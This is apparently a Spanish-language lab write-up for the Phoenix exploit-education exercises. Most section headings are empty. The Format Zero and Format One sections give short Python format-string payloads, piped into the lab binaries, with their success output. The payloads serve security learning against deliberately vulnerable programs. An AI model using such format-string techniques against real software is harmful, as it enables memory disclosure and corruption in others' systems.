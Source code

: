 ```yaml
---
layout: default
title: "Phoenix-Exploit Education"
permalink: /Phoenix-EE/
---
```


# Phoenix-Exploit Education

## Stack Zero
## Stack One
## Stack Two
## Stack Three
## Stack Four
## Stack Five
## Stack Six

## Format Zero

Como hablamos de formatos, nos referimos a los que tienen **%** como por ejemplo **%s**, **%i**, **%p**, **%x** o **%d** entre otros. En este caso usaremos **%x**, unas cuantas veces para formar el  error del bug.

Ahora haremos lo siguiente:

```bash
$ python -c "print '%x'*20" | ./format-zero

Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

## Format One

```bash
$ python -c "print '%32x\x6c\x4f\x76\x45'" | ./format-one 
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!

```

## Format Two



## Format Three
## Format Four
## Heap Zero
## Heap One
## Heap Two
## Heap Three
## Net Zero
## Net One
## Net Two
## Final Zero
## Final One
## Final Two

